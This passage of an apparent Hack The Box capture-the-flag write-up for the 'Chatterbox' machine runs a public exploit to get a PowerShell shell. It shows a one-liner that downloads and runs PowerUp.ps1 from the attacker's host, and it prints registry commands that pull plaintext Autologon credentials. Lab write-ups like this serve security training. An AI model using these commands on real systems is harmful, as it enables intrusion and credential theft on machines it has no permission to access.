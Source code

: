 Run the exploit.

```text
root@kali:~/Desktop/htb/chatterbox# python 36025.py 
---->{P00F}!
```

We get a PowerShell shell!

![](https://miro.medium.com/max/943/1*BqwL-qWlNezkn5G9g4eKFw.png)

We’ll use the [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) script to determine if there are any misconfigurations that lead to privilege escalation.

Upload and run the script on the target machine.

```text
PS C:\Users\Alfred\Desktop> iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/PowerUp.ps1')PS C:\Users\Alfred\Desktop> Invoke-AllChecks
```

We get back two interesting results.

```text
[*] Checking for Autologon credentials in registry...DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   :[*] Checking for unattended install files...UnattendPath : C:\Windows\Panther\Unattend.xml
```

Viewing the _Unattend.xml_ file, we see that the password was redacted. So let’s focus on the Autologon credentials. The default username is “_Alfred_” and the default password is “_Welcome1!_”. I don’t have much experience with Windows, so I googled [Autologin credentials](https://support.microsoft.com/en-ca/help/324737/how-to-turn-on-automatic-logon-in-windows) to learn more about it.

![](https://miro.medium.com/max/1148/1*oR22IbW1Do-rN8XOfFjtjQ.png)

As stated in the article, these credentials are stored in the registry in plain text. The manual commands for extracting these credentials are:

```text
PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName                                                                                                                         
Alfred                                                                                                                                               PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword                                                                                                                         
Welcome1!
```

These credentials are set by the administrator. Since users have a tendency to reuse passwords, let’s see if the administrator account is set to the same password.
